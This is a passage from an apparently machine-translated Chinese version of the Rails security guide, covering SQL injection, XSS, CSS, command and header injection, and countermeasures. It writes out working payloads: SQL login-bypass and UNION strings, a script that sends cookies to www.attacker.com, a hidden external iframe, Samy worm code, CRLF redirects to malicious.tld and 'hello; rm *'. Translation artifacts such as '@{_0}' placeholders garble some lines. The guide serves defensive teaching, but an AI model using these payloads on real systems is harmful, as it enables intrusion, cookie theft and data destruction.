請注意，負面驗證碼僅對愚蠢的機器人有效，不足以保護關鍵應用程式免受目標機器人的攻擊。儘管如此，負面和正面 CAPTCHA 可以組合以提高效能，例如，如果“蜜罐”欄位不為空（檢測到機器人），您將不需要驗證正面 CAPTCHA，這將需要向 Google 發出 HTTPS 請求在計算響應之前重新驗證。
以下是如何透過 JavaScript 和/或 CSS 隱藏蜜罐欄位的一些想法：
- 將欄位放置在頁面可見區域之外
- 使元素非常小或顏色與頁面背景相同
- 保留顯示的欄位，但告訴人們將它們留空
最簡單的否定驗證碼是一個隱藏的蜜罐欄位。在伺服器端，您將檢查欄位的value：如果它包含任何文字，則它必須是機器人。然後，您可以忽略帖子或返回肯定結果，但不將帖子儲存到資料庫中。這樣，機器人將感到滿意並繼續前進。
您可以在 Ned Batchelder 的 部落格文章 中找到更復雜的否定驗證碼：
- 在其中包含一個帶有當前 UTC 時間戳的欄位，並在伺服器上進行檢查。如果是過去太遠，或者是未來，則表格無效。
- 隨機化欄位名
- 包括所有型別的多個蜜罐域，包括提交按鈕
請注意，這隻能保護您免受自動機器人的侵害，因此無法阻止有針對性的定製機器人。所以 negative CAPTCHA 可能不利於保護登入表單。
6.4 記錄
警告：告訴 Rails 不要在日誌檔案中輸入密碼。
預設情況下，Rails 會記錄對 Web 應用程式發出的所有請求。但是日誌檔案可能是一個巨大的安全問題，因為它們可能包含登入憑據、信用卡號等。在設計 Web 應用程式安全概念時，您還應該考慮如果攻擊者獲得對 Web 伺服器的（完全）訪問許可權會發生什麼。如果日誌檔案以明文形式列出它們，那麼加密資料庫中的機密和密碼將毫無用處。您可以透過將某些請求引數附加到應用程式配置中的 config.filter_parameters 來_過濾日誌檔案中的某些請求引數。這些引數將在日誌中標記為 [FILTERED]。
config.filter_parameters << :password
注意：提供的引數將被部分匹配的正則表示式過濾掉。 Rails 在適當的初始化器（initializers/filter_parameter_logging.rb）中添加了預設的:password，並關心典型的應用程式引數password 和password_confirmation。
6.5 正則表示式
資訊：Ruby 的正則表示式中的一個常見陷阱是用 ^ 和 $ 匹配字串的開頭和結尾，而不是用 \A 和 \z.
Ruby 使用與許多其他語言略有不同的方法來匹配字串的結尾和開頭。這就是為什麼甚至許多Ruby 和 Rails 書籍都弄錯了的原因。那麼這是如何構成安全威脅的呢？假設您想鬆散地驗證一個 URL 欄位，並且您使用了一個簡單的正則表示式，如下所示：
/^https?:\/\/[^\n]+$/i
這在某些語言中可能工作正常。但是，in Ruby ^ 和$ 匹配行 開頭和行結尾。因此，像這樣的 URL 可以毫無問題地透過過濾器：
javascript:exploit_code();/*
http://hi.com
*/
此 URL 透過過濾器，因為正則表示式匹配 - 第二行，其餘無關緊要。現在假設我們有一個 view 顯示這樣的 URL：
link_to "Homepage", @user.homepage
該連結對訪問者來說看起來是無辜的，但當它被點選時，它會執行 JavaScript 函式“exploit_code”或攻擊者提供的任何其他 JavaScript。
要修復正則表示式，應使用\A 和\z 而不是^ 和$，如下所示：
/\Ahttps?:\/\/[^\n]+\z/i
由於這是一個常見錯誤，如果提供的正則表示式以 ^ 開頭或以 $ 結尾，則格式驗證器 (validates_format_of) 現在會引發異常。如果您確實需要使用 ^ 和 $ 而不是 \A 和 \z（這種情況很少見），您可以將 :multiline 選項設定為 true，如下所示：
# content should include a line "Meanwhile" anywhere in the string
validates :content, format: { with: /^Meanwhile$/, multiline: true }
請注意，這隻會保護您在使用格式驗證器時避免最常見的錯誤 - 您始終需要記住 ^ 和 $ 匹配Ruby 中的行 開頭和行結尾，而不是開頭和結尾字串的結尾。
6.6 許可權提升
警告：更改單個引數可能會給使用者未經授權的訪問。請記住，無論您隱藏或混淆了多少，每個引數都可能會更改。
使用者可能篡改的最常見引數是 id 引數，如http://www.domain.com/project/1，而 1 是 id。它將在controller 的引數中可用。在那裡，你很可能會做這樣的事情：
@project = Project.find(params[:id])
這對於某些 Web 應用程式來說沒問題，但如果使用者未獲得view 所有專案的授權，則肯定不行。如果使用者將 id 更改為 42，並且不允許他們檢視該資訊，則無論如何他們都可以訪問它。相反，查詢使用者的訪問許可權：
@project = @current_user.projects.find(params[:id])
根據您的 Web 應用程式，使用者可以篡改更多引數。根據經驗，沒有使用者輸入資料是安全的，除非另有證明，並且來自使用者的每個引數都可能被操縱。
不要被混淆和 JavaScript 安全所迷惑。開發人員工具可讓您重新view 並更改每個表單的隱藏欄位。 JavaScript 可用於驗證使用者輸入資料，但肯定不能防止攻擊者傳送帶有意外values 的惡意請求。 Mozilla Firefox 的 Firebug 外掛會記錄每個請求，並且可能會重複和更改它們。這是繞過任何 JavaScript 驗證的簡單方法。甚至還有客戶端代理，可讓您攔截來自 Internet 和發往 Internet 的任何請求和響應。
7 注射
資訊：Injection 是一類將惡意程式碼或引數引入 Web 應用程式以便在其安全上下文中執行的攻擊。注入的突出例子是跨站點指令碼（XSS）和 SQL 注入。
注入非常棘手，因為相同的程式碼或引數在一個上下文中可能是惡意的，但在另一個上下文中完全無害。上下文可以是指令碼、查詢或程式語言、shell 或 Ruby/Rails 方法。以下部分將涵蓋可能發生注入攻擊的所有重要上下文。然而，第一部分涵蓋了與注入相關的架構決策。
7.1 允許列表與限制列表
注意：在清理、保護或驗證某些內容時，更喜歡允許列表而不是受限列表。
受限列表可以是錯誤電子郵件地址、非公開actions 或錯誤 HTML 標記的列表。這與列出良好電子郵件地址、公共actions、良好 HTML 標籤等的允許列表相反。儘管有時無法建立允許列表（例如在垃圾郵件過濾器中），更喜歡使用允許列表方法：
- 對於與安全相關的actions，使用
before_action except: [...]而不是only: [...]。這樣您就不會忘記為新新增的actions 啟用安全檢查。 - 允許
<strong>而不是刪除<script>以對抗跨站指令碼（XSS）。詳情請見下文。 - 不要嘗試使用受限列表更正使用者輸入：
- 這將使攻擊有效：
"<sc<script>ript>".gsub("<script>", "") - 但拒絕格式錯誤的輸入
- 這將使攻擊有效：
允許列表也是一種很好的方法，可以防止人為因素忘記限制列表中的某些內容。
7.2 SQL 注入
資訊：感謝聰明的方法，這在大多數 Rails 應用程式中幾乎不是問題。但是，這是Web應用程式中非常具有破壞性且常見的攻擊，因此瞭解問題很重要。
7.2.1 簡介
SQL 注入攻擊旨在透過操縱 Web 應用程式引數來影響資料庫查詢。 SQL 注入攻擊的一個流行目標是繞過授權。另一個目標是進行資料操作或讀取任意資料。以下是如何在查詢中不使用使用者輸入資料的示例：
Project.where("name = '#{params[:name]}'")
這可以在搜尋action 中並且使用者可以輸入他們想要查詢的專案名稱。如果惡意使用者輸入' OR 1 --，則生成的 SQL 查詢將是：
SELECT * FROM projects WHERE name = '' OR 1 --'
兩個破折號開始一條評論，忽略後面的所有內容。因此，查詢返回專案表中的所有記錄，包括那些對使用者不知情的記錄。這是因為所有記錄的條件都為真。
7.2.2 繞過授權
通常，Web 應用程式包括訪問控制。使用者輸入他們的登入憑據，Web 應用程式嘗試在使用者表中查詢匹配的記錄。應用程式在找到記錄時授予訪問許可權。但是，攻擊者可能會透過 SQL 注入繞過此檢查。下面顯示了 Rails 中的典型資料庫查詢，用於查詢使用者表中與使用者提供的登入憑據引數匹配的第一條記錄。
User.find_by("login = '#{params[:name]}' AND password = '#{params[:password]}'")
如果攻擊者輸入' OR '1'='1 作為名稱，' OR '2'>'1 作為密碼，則生成的 SQL 查詢將是：
SELECT * FROM users WHERE login = '' OR '1'='1' AND password = '' OR '2'>'1' LIMIT 1
這將簡單地找到資料庫中的第一條記錄，並授予該使用者的訪問許可權。
7.2.3 未經授權的閱讀
UNION 語句連線兩個 SQL 查詢並返回一組中的資料。攻擊者可以使用它從資料庫中讀取任意資料。讓我們以上面的例子為例：
Project.where("name = '#{params[:name]}'")
現在讓我們使用 UNION 語句注入另一個查詢：
') UNION SELECT id,login AS name,password AS description,1,1,1 FROM users --
這將導致以下 SQL 查詢：
SELECT * FROM projects WHERE (name = '') UNION
SELECT id,login AS name,password AS description,1,1,1 FROM users --'
結果不會是專案列表（因為沒有空名稱的專案），而是使用者名稱及其密碼的列表。所以希望你加密了資料庫中的密碼！攻擊者唯一的問題是，兩個查詢中的列數必須相同。這就是為什麼第二個查詢包含一個 (1) 的列表，它始終是 value 1，以便與第一個查詢中的列數相匹配。
此外，第二個查詢使用 AS 語句重新命名某些列，以便 Web 應用程式顯示使用者表中的 values。請務必更新您的 Rails 至少到 2.1.1。
7.2.4 對策
Ruby on Rails 有一個內建的特殊 SQL 字元過濾器，它會轉義 ' 、" 、NULL 字元和換行符。 使用Model.find(id) 或Model.find_by_some thing(something) 會自動應用此對策。但是在 SQL 片段中，尤其是在條件片段 (where("..."))、connection.execute() 或 Model.find_by_sql() 方法中，必須手動應用*。
您可以傳遞一個數組來清理受汙染的字串，而不是將字串傳遞給條件選項：
Model.where("login = ? AND password = ?", entered_user_name, entered_password).first
如您所見，陣列的第一部分是一個帶問號的 SQL 片段。陣列第二部分中變數的清理版本替換了問號。或者您可以為相同的結果傳遞一個雜湊：
Model.where(login: entered_user_name, password: entered_password).first
陣列或雜湊形式僅在model 例項中可用。您可以在其他地方嘗試sanitize_sql()。 養成在SQL中使用外部字串時考慮安全後果的習慣。
7.3 跨站指令碼（XSS）
資訊：Web 應用程式中最普遍、最具破壞性的安全漏洞之一是 XSS。這種惡意攻擊會注入客戶端可執行程式碼。 Rails 提供了helper 方法來抵禦這些攻擊。
7.3.1 入口點
入口點是一個易受攻擊的 URL 及其引數，攻擊者可以在其中發起攻擊。
最常見的入口點是訊息帖子、使用者評論和留言簿，但專案標題、文件名稱和搜尋結果頁面也很容易受到攻擊——幾乎所有使用者可以輸入資料的地方。但是輸入不一定來自網站上的輸入框，它可以在任何 URL 引數中 - 明顯的、隱藏的或內部的。請記住，使用者可能會攔截任何流量。應用程式或客戶端代理可以輕鬆更改請求。還有其他攻擊媒介，如橫幅廣告。
XSS 攻擊的工作原理是這樣的：攻擊者注入一些程式碼，Web 應用程式將其儲存並顯示在頁面上，然後呈現給受害者。大多數 XSS 示例只是顯示一個警告框，但它比這更強大。 XSS 可以竊取cookie、劫持session、將受害者重定向到虛假網站、為攻擊者展示廣告、更改網站元素以獲取機密資訊或透過安全漏洞安裝惡意軟體網路瀏覽器。
2007 年下半年，Mozilla 瀏覽器中報告了 88 個漏洞，Safari 中報告了 22 個，IE 中報告了 18 個，Opera 中報告了 12 個。賽門鐵克全球網際網路安全威脅報告還記錄了 2007 年最後六個月的 239 個瀏覽器外掛漏洞。 Mpack 是一個利用這些漏洞的非常活躍和最新的攻擊框架。對於犯罪駭客來說，利用Web 應用程式框架中的SQL-Injection 漏洞並在每個文字表列中插入惡意程式碼是非常有吸引力的。 2008 年 4 月，超過 510,000 個網站遭到駭客攻擊，其中包括英國政府、聯合國以及更多知名目標。
7.3.2 HTML/JavaScript 注入
最常見的 XSS 語言當然是最流行的客戶端指令碼語言 JavaScript，通常與 HTML 結合使用。 轉義使用者輸入是必不可少的。
這是檢查 XSS 的最直接的測試：
<script>alert('Hello');</script>
此 JavaScript 程式碼將僅顯示一個警告框。下面的例子完全一樣，只是在非常不常見的地方：
<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">
7.3.2.1 Cookie 盜竊
到目前為止，這些示例沒有造成任何危害，所以讓我們看看攻擊者如何竊取使用者的 cookie（從而劫持使用者的session）。在 JavaScript 中，您可以使用 @{_0} 屬性來讀取和寫入文件的 cookie。 JavaScript 強制執行同源策略，這意味著來自一個域的指令碼無法訪問另一個域的 cookies。 @{_0} 屬性儲存原始 Web 伺服器的 cookie。但是，如果您將程式碼直接嵌入到 HTML 文件中（就像 XSS 發生的那樣），您可以讀取和寫入此屬性。在您的 Web 應用程式中的任何位置注入它以在結果頁面上檢視您自己的 cookie：
<script>document.write(document.cookie);</script>
當然，對於攻擊者來說，這沒有用，因為受害者會看到自己的cookie。下一個示例將嘗試從 URL http://www.attacker.com/ 加上 cookie 載入影象。當然這個網址不存在，所以瀏覽器什麼都不顯示。但是攻擊者可以重新view 其 Web 伺服器的訪問日誌檔案以檢視受害者的cookie。
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
www.attacker.com 上的日誌檔案將如下所示：
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
您可以透過將 httpOnly 標誌新增到 cookies 來緩解這些攻擊（以明顯的方式），這樣 JavaScript 就可能無法讀取 document.cookie。 HTTP only cookies 可以從 IE v6.SP1、Firefox v2.0.0.5、Opera 9.5、Safari 4 和 Chrome 1.0.154 開始使用。但其他較舊的瀏覽器（例如 Mac 上的 WebTV 和 IE 5.5）實際上會導致頁面無法載入。但是請注意cookies 使用 Ajax 仍然可見。
7.3.2.2 汙損
透過網頁篡改，攻擊者可以做很多事情，例如，在攻擊者的網站上提供虛假資訊或引誘受害者竊取cookie、登入憑據或其他敏感資料。最流行的方式是透過 iframe 包含來自外部來源的程式碼：
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
這會從外部源載入任意 HTML 和/或 JavaScript，並將其作為站點的一部分嵌入。這個iframe 來自使用 Mpack 攻擊框架 對合法義大利網站的實際攻擊。 Mpack 嘗試透過 Web 瀏覽器中的安全漏洞安裝惡意軟體 - 非常成功，50% 的攻擊成功。
更專業的攻擊可能會覆蓋整個網站或顯示一個登入表單，它看起來與網站的原始網站相同，但會將使用者名稱和密碼傳輸到攻擊者的網站。或者它可以使用 CSS 和/或 JavaScript 來隱藏 Web 應用程式中的合法連結，並在其位置顯示另一個重定向到虛假網站的連結。
反射注入攻擊是指不儲存有效負載以便稍後將其呈現給受害者的攻擊，而是包含在 URL 中的攻擊。特別是搜尋表單無法轉義搜尋字串。以下連結顯示了一個頁面，上面寫著“喬治·布什任命了一個 9 歲的男孩擔任主席......”：
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
<script src=http://www.securitylab.ru/test/sc.js></script><!--
7.3.2.3 對策
過濾惡意輸入很重要，但逃避Web應用程式的輸出也很重要。
特別是對於 XSS，重要的是做permitted input 過濾而不是restricted。允許的列表過濾宣告values 允許，而不是values 不允許。受限列表永遠不會完整。
想象一個受限列表從使用者輸入中刪除"script"。現在攻擊者注入"<scrscriptipt>"，過濾後，"<script>"依然存在。早期版本的 Rails 對 strip_tags()、strip_links() 和 sanitize() 方法使用了受限列表方法。所以這種注入是可能的：
strip_tags("some<<b>script>alert('hello')<</b>/script>")
這返回了"some<script>alert('hello')</script>"，這使得攻擊有效。這就是為什麼允許列表方法更好的原因，使用更新的 Rails 2 方法sanitize()：
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
這僅允許給定的標籤並且做得很好，甚至可以對抗各種技巧和格式錯誤的標籤。
作為第二步，轉義應用程式的所有輸出是一種很好的做法，尤其是在重新顯示未經過輸入過濾的使用者輸入時（如前面的搜尋表單示例）。 使用escapeHTML()（或其別名h()）方法將HTML輸入字元&、"、<和>替換為它們在HTML中的未解釋表示（@{ _6}、"、< 和 >）。
7.3.2.4 混淆和編碼注入
網路流量主要基於有限的西方字母表，因此出現了新的字元編碼，例如 Unicode，以傳輸其他語言的字元。但是，這也是對 Web 應用程式的威脅，因為惡意程式碼可以隱藏在 Web 瀏覽器可能能夠處理但 Web 應用程式可能無法處理的不同編碼中。這是 UTF-8 編碼的攻擊向量：
<img src=javascript:a
lert('XSS')>
這個例子彈出一個訊息框。不過，它會被上面的@{0} 過濾器識別。 Hackvertor 是一個很好的混淆和編碼字串的工具，從而“瞭解你的敵人”。 Rails 的 @{0} 方法在抵禦編碼攻擊方面做得很好。
7.3.3 來自地下的例子
為了瞭解當今對 Web 應用程式的攻擊，最好檢視一些真實世界的攻擊向量。
以下摘自 Js.Yamanner@m Yahoo!郵件蠕蟲。它出現於 2006 年 6 月 11 日，是第一個網路郵件介面蠕蟲：
<img src='http://us.i1.yimg.com/us.yimg.com/i/us/nt/ma/ma_mail_1.gif'
target=""onload="var http_request = false; var Email = '';
var IDList = ''; var CRumb = ''; function makeRequest(url, Func, Method,Param) { ...
這些蠕蟲利用了雅虎 HTML/JavaScript 過濾器中的一個漏洞，該過濾器通常會從標籤中過濾所有目標和載入屬性（因為可能存在 JavaScript）。然而，過濾器只應用一次，因此帶有蠕蟲程式碼的 onload 屬性保持不變。這是一個很好的例子，為什麼受限列表過濾器永遠不會完整，為什麼在 Web 應用程式中很難允許 HTML/JavaScript。
另一個概念驗證網路郵件蠕蟲是 Nduja，這是一種用於四個義大利網路郵件服務的跨域蠕蟲。有關 Rosario Valotta 的論文 的更多詳細資訊。兩種網路郵件蠕蟲的目標都是收集電子郵件地址，犯罪駭客可以藉此賺錢。
2006 年 12 月，在 MySpace 網路釣魚攻擊 中，34,000 個實際使用者名稱和密碼被盜。攻擊的想法是建立一個名為“login_home_index_html”的個人資料頁面，因此該 URL 看起來非常有說服力。特製的 HTML 和 CSS 用於從頁面中隱藏真正的 MySpace 內容，而是顯示其自己的登入表單。
7.4 CSS 注入
資訊：CSS 注入實際上是 JavaScript 注入，因為某些瀏覽器（IE、某些版本的 Safari 等）允許在 CSS 中使用 JavaScript。考慮在您的 Web 應用程式中允許自定義 CSS。
著名的 MySpace Samy 蠕蟲 對 CSS 注入做了最好的解釋。該蠕蟲只需訪問他的個人資料即可自動向 Samy（攻擊者）傳送好友請求。幾個小時之內，他收到了超過 100 萬個好友請求，造成了如此多的流量，以至於 MySpace 下線了。以下是該蠕蟲的技術說明。
MySpace 阻止了許多標籤，但允許使用 CSS。所以蠕蟲的作者將 JavaScript 放入 CSS 中，如下所示：
<div style="background:url('javascript:alert(1)')">
所以有效載荷在 style 屬性中。但是有效載荷中不允許使用引號，因為已經使用了單引號和雙引號。但是 JavaScript 有一個方便的 eval() 函式，可以將任何字串作為程式碼執行。
<div id="mycode" expr="alert('hah!')" style="background:url('javascript:eval(document.all.mycode.expr)')">
eval() 函式對於受限列表輸入過濾器來說是一場噩夢，因為它允許 style 屬性隱藏單詞“innerHTML”：
alert(eval('document.body.inne' + 'rHTML'));
下一個問題是MySpace過濾了"javascript"這個詞，所以作者使用"java<NEWLINE>script"來解決這個問題：
<div id="mycode" expr="alert('hah!')" style="background:url('java↵script:eval(document.all.mycode.expr)')">
蠕蟲作者的另一個問題是 CSRF security tokens。沒有它們，他無法透過 POST 傳送好友請求。他透過在新增使用者之前向頁面傳送 GET 並解析 CSRF 令牌的結果來繞過它。
最後，他得到了一個 4 KB 的蠕蟲，並將其注入到他的個人資料頁面中。
moz-binding CSS 屬性被證明是在基於 Gecko 的瀏覽器（例如 Firefox）的 CSS 中引入 JavaScript 的另一種方式。
7.4.1 對策
此示例再次表明受限列表過濾器永遠不會完整。但是，由於 Web 應用程式中的自定義 CSS 是一個非常罕見的功能，因此可能很難找到一個好的允許的 CSS 過濾器。 如果您想允許自定義顏色或影象，您可以允許使用者選擇它們並在 Web 應用程式中構建 CSS。如果您確實需要，可以使用 Rails 的 sanitize() 方法作為允許的 CSS 過濾器的 model。
7.5 紡織品注塑
如果您想提供 HTML 以外的文字格式（出於安全考慮），請使用在伺服器端轉換為 HTML 的標記語言。 RedCloth 就是這樣一種Ruby 的語言，但是如果沒有預防措施，它也容易受到 XSS 攻擊。
例如，RedCloth 將_test_ 轉換為<em>test<em>，從而使文字變為斜體。但是，直到目前的 3.0.4 版本，它仍然容易受到 XSS 的攻擊。獲取刪除了嚴重錯誤的 全新版本 4。然而，即使是那個版本也有一些安全漏洞，所以對策仍然適用。以下是版本 3.0.4 的示例：
RedCloth.new('<script>alert(1)</script>').to_html
# => "<script>alert(1)</script>"
使用:filter_html 選項刪除不是由 Textile 處理器建立的 HTML。
RedCloth.new('<script>alert(1)</script>', [:filter_html]).to_html
# => "alert(1)"
但是，這不會過濾所有 HTML，會留下一些標籤（按設計），例如 <a>：
RedCloth.new("<a href='javascript:alert(1)'>hello</a>", [:filter_html]).to_html
# => "<p><a href="javascript:alert(1)">hello</a></p>"
7.5.1 對策
建議結合使用 RedCloth 和允許的輸入過濾器，如針對 XSS 的對策部分所述。
7.6 Ajax 注入
注意：必須對 Ajax actions 採取與“正常”相同的安全預防措施。但是，至少有一個例外：如果操作未呈現 view.，則必須已經在 controller 中轉義輸出。
如果您使用返回字串的 in_place_editor 外掛 或 actions，而不是呈現 view，則必須轉義在 action_ 中返回 value。否則，如果返回value 包含XSS 字串，則返回瀏覽器時將執行惡意程式碼。使用h() 方法轉義任何輸入value。
7.7 命令列注入
注意：謹慎使用使用者提供的命令列引數。
如果您的應用程式必須在底層作業系統中執行命令，Ruby 中有幾種方法：system(command)、exec(command)、spawn(command) 和@{_3} command @{_3} .如果使用者可能輸入整個命令或其中的一部分，則必須特別小心這些功能。這是因為在大多數 shell 中，您可以在第一個命令的末尾執行另一個命令，用分號 (;) 或豎線 (|) 將它們連線起來。
user_input = "hello; rm *"
system("/bin/echo #{user_input}")
# prints "hello", and deletes files in the current directory
對策是使用system(command, parameters) 方法安全地傳遞命令列引數。
system("/bin/echo","hello; rm *")
# prints "hello; rm *" and does not delete files
7.7.1 Kernel#open 的漏洞
如果引數以豎線 (|) 開頭，Kernel#open 將執行 OS 命令。
open('| ls') { |f| f.read }
# returns file list as a String via `ls` command
對策是改用File.open、IO.open 或URI#open。它們不執行作業系統命令。
File.open('| ls') { |f| f.read }
# doesn't execute `ls` command, just opens `| ls` file if it exists
IO.open(0) { |f| f.read }
# opens stdin. doesn't accept a String as the argument
require 'open-uri'
URI('https://example.com').open { |f| f.read }
# opens the URI. `URI()` doesn't accept `| ls`
7.8 標頭注入
警告：HTTP 標頭是動態生成的，在某些情況下可能會注入使用者輸入。這可能導致錯誤重定向、XSS 或 HTTP 響應拆分。
HTTP 請求標頭具有 Referer、User-Agent（客戶端軟體）和 Cookie 欄位等。例如，響應標頭具有狀態程式碼、Cookie 和位置（重定向目標 URL）欄位。所有這些都是使用者提供的，可以透過或多或少的努力進行操作。 記住也要轉義這些標題欄位。 例如，當您在管理區域中顯示使用者代理時。
除此之外，重要的是要知道在部分基於使用者輸入構建響應標頭時您在做什麼。_例如，您想將使用者重定向回特定頁面。為此，您在表單中引入了一個“referer”欄位以重定向到給定地址：
redirect_to params[:referer]
發生的事情是 Rails 將字串放入Location 標頭欄位並向瀏覽器傳送 302（重定向）狀態。惡意使用者會做的第一件事是：
http://www.yourapplication.com/controller/action?referer=http://www.malicious.tld
並且由於 (Ruby and) Rails 2.1.2 版本（不包括它）中的錯誤，駭客可能會注入任意頭欄位；例如像這樣：
http://www.yourapplication.com/controller/action?referer=http://www.malicious.tld%0d%0aX-Header:+Hi!
http://www.yourapplication.com/controller/action?referer=path/at/your/app%0d%0aLocation:+http://www.malicious.tld
請注意，%0d%0a 是針對\r\n 進行 URL 編碼的，\r\n 是 Ruby 中的回車換行 (CRLF)。因此，第二個示例的結果 HTTP 標頭將如下所示，因為第二個 Location 標頭欄位覆蓋了第一個。
HTTP/1.1 302 Moved Temporarily
(...)
Location: http://www.malicious.tld
因此，Header Injection 的 attack 向量基於在 header 欄位中注入 CRLF 字元。 _ 攻擊者可以用錯誤重定向做什麼？他們可以重定向到與您的網站看起來相同的網路釣魚站點，但要求再次登入（並將登入憑據傳送給攻擊者）。或者他們可以透過該站點上的瀏覽器安全漏洞安裝惡意軟體。 Rails 2.1.2 為 `redirectto` 方法中的 Location 欄位轉義了這些字元。 當您使用使用者輸入構建其他標題欄位時，請確保您自己完成。
7.8.1 響應拆分
如果頭注入是可能的，響應拆分也可能是。在 HTTP 中，頭塊後面是兩個 CRLF 和實際資料（通常是 HTML）。響應拆分的想法是將兩個 CRLF 注入一個頭欄位，然後是另一個帶有惡意 HTML 的響應。響應將是：
HTTP/1.1 302 Found [First standard 302 response]
Date: Tue, 12 Apr 2005 22:09:07 GMT
Location:Content-Type: text/html
HTTP/1.1 200 OK [Second New response created by attacker begins]
Content-Type: text/html
<html><font color=red>hey</font></html> [Arbitrary malicious input is
Keep-Alive: timeout=15, max=100 shown as the redirected page]
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: text/html
在某些情況下，這會將惡意 HTML 呈現給受害者。但是，這似乎只適用於 Keep-Alive 連線（並且許多瀏覽器都使用一次性連線）。但是你不能依賴這個。 無論如何，這是一個嚴重的錯誤，您應該將 Rails 更新到 2.0.5 或 2.1.2 版以消除頭注入（以及響應拆分）風險。
8 不安全的查詢生成
由於Active Record結合方式解釋引數的方式
Rack 解析查詢引數可能會發出意外的資料庫
使用 IS NULL where 子句查詢。作為對該安全問題的回應
（CVE-2012-2660
deep_munge 方法被引入作為預設情況下保持 Rails 安全的解決方案。
攻擊者可能使用的易受攻擊程式碼示例，如果deep_munge
沒有執行的是：
unless params[:token].nil?
user = User.find_by_token(params[:token])
user.reset_password!
end
當params[:token] 是以下之一時：[nil]、[nil, nil, ...] 或
['foo', nil] 它將繞過nil 的測試，但是IS NULL 或
IN ('foo', NULL) where 子句仍然會被新增到 SQL 查詢中。
為了在預設情況下保持 Rails 安全，deep_munge 將部分 values 替換為
nil。下表顯示了基於JSON 傳送的引數的樣子
要求：
| JSON |引數 |
|------------------------------------|------------ -------------|
| { "person": null } | { :person => nil } |
| { "person": [] } | { :person => [] } |
| { "person": [null] } | { :person => [] } |
| { "person": [null, null, ...] } | { :person => [] } |
| { "person": ["foo", null] } | { :person => ["foo"] } |
可以返回舊行為並禁用deep_munge 配置
如果您瞭解風險並知道如何處理，您的申請：
config.action_dispatch.perform_deep_munge = false
9 預設標題
Rails 應用程式的每個 HTTP 響應都會收到以下預設安全標頭。
config.action_dispatch.default_headers = {
'X-Frame-Options' => 'SAMEORIGIN',
'X-XSS-Protection' => '1; mode=block',
'X-Content-Type-Options' => 'nosniff',
'X-Download-Options' => 'noopen',
'X-Permitted-Cross-Domain-Policies' => 'none',
'Referrer-Policy' => 'strict-origin-when-cross-origin'
}
您可以在config/application.rb 中配置預設標題。
config.action_dispatch.default_headers = {
'Header-Name' => 'Header-Value',
'X-Frame-Options' => 'DENY'
}
或者您可以刪除它們。
config.action_dispatch.default_headers.clear
以下是常見標題列表：
-
X-Frame-Options:
SAMEORIGIN在 Rails 中預設 - 允許在同一個域上成幀。如果您想在所有網站上允許框架，請將其設定為“拒絕”以完全拒絕框架或完全刪除此標題。 -
X-XSS-Protection:
1; mode=block在 Rails 中預設 - 如果檢測到 XSS 攻擊，則使用 XSS 審計器並阻止頁面。將其設定為'0;'如果你想關閉 XSS 審計器（如果來自請求引數的響應內容指令碼很有用） -
X-Content-Type-Options:
nosniff在 Rails 中預設 - 阻止瀏覽器猜測檔案的 MIME 型別。 - X-Content-Security-Policy: 一種強大的機制，用於控制可以從哪些站點載入某些內容型別
- Access-Control-Allow-Origin: 用於控制允許哪些站點繞過同源策略併發送跨域請求。
- Strict-Transport-Security: 用於控制是否允許瀏覽器僅透過安全連線訪問站點
9.1 內容安全政策
Rails 提供了一個 DSL，允許你配置一個 內容安全政策 為您的應用程式。您可以配置全域性預設策略，然後 在每個資源的基礎上覆蓋它，甚至使用 lambdas 來注入每個請求 values 進入標頭，例如多租戶應用程式中的帳戶子域。
示例全域性策略：
# config/initializers/content_security_policy.rb
Rails.application.config.content_security_policy do |policy|
policy.default_src :self, :https
policy.font_src :self, :https, :data
policy.img_src :self, :https, :data
policy.object_src :none
policy.script_src :self, :https
policy.style_src :self, :https
# Specify URI for violation reports
policy.report_uri "/csp-violation-report-endpoint"
end
示例controller 覆蓋：
# Override policy inline
class PostsController < ApplicationController
content_security_policy do |p|
p.upgrade_insecure_requests true
end
end
# Using literal values
class PostsController < ApplicationController
content_security_policy do |p|
p.base_uri "https://www.example.com"
end
end
# Using mixed static and dynamic values
class PostsController < ApplicationController
content_security_policy do |p|
p.base_uri :self, -> { "https://#{current_user.domain}.example.com" }
end
end
# Disabling the global CSP
class LegacyPagesController < ApplicationController
content_security_policy false, only: :index
end
使用content_security_policy_report_only
要設定的配置屬性
Content-Security-Policy-Report-Only
為了僅報告遷移的內容違規
遺留內容
# config/initializers/content_security_policy.rb
Rails.application.config.content_security_policy_report_only = true
# Controller override
class PostsController < ApplicationController
content_security_policy_report_only only: :index
end
您可以啟用自動隨機數生成：
# config/initializers/content_security_policy.rb
Rails.application.config.content_security_policy do |policy|
policy.script_src :self, :https
end
Rails.application.config.content_security_policy_nonce_generator = -> request { SecureRandom.base64(16) }
然後你可以透過傳遞nonce: true來新增一個自動隨機數value
作為html_options 的一部分。例子：
<%= javascript_tag nonce: true do -%>
alert('Hello, World!');
<% end -%>
同樣適用於javascript_include_tag：
<%= javascript_include_tag "script", nonce: true %>
使用 csp_meta_tag
helper 使用 per-session nonce value 建立元標記“csp-nonce”
用於允許內聯 <script> 標籤。
<head>
<%= csp_meta_tag %>
</head>
Rails UJS helper 使用它來動態建立
載入內聯 <script> 元素。
10 環境安全
告知您如何保護您的應用程式程式碼和環境超出了本指南的範圍。但是，請保護您的資料庫配置，例如config/database.yml、credentials.yml 的主 key 和其他未加密的機密。您可能希望使用這些檔案的特定於環境的版本以及可能包含敏感資訊的任何其他版本來進一步限制訪問。
10.1 自定義憑據
Rails 將機密儲存在config/credentials.yml.enc 中，它是加密的，因此不能直接編輯。 Rails 使用config/master.key 或查詢環境變數ENV["RAILS_MASTER_KEY"] 來加密憑證檔案。因為憑證檔案是加密的，所以它可以儲存在版本控制中，只要主key 是安全的。
預設情況下，憑據檔案包含應用程式的
secret_key_base。它還可以用於儲存其他機密，例如外部 API 的訪問 keys。
要編輯憑據檔案，請執行 bin/rails credentials:edit。如果憑據檔案不存在，此命令將建立該檔案。此外，如果沒有定義主key，此命令將建立config/master.key。
憑證檔案中儲存的機密可透過Rails.application.credentials 訪問。
